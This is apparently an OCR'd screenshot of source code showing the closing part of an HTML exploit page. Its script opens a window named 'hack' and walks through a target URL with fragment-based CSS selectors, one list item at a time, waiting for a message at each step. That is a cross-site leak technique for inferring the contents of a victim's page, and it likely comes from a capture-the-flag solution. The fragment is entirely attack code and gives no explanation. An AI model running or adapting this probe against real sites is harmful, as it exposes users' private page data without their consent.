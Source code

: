 ``` html
            });
        }
        onload = onclick = async () => {
            if (!win || win.closed) {
                win = open('about:blank', 'hack', 'width=800,height=300,top=500');
            }
            for (let i = 1; i < 100; i++) {
                const url = `${URL}/#a,.list-group-item:nth-child(${i})`;
                while (await waitForMessage(url));
            }
        };
    </script>
</body>
</html>
```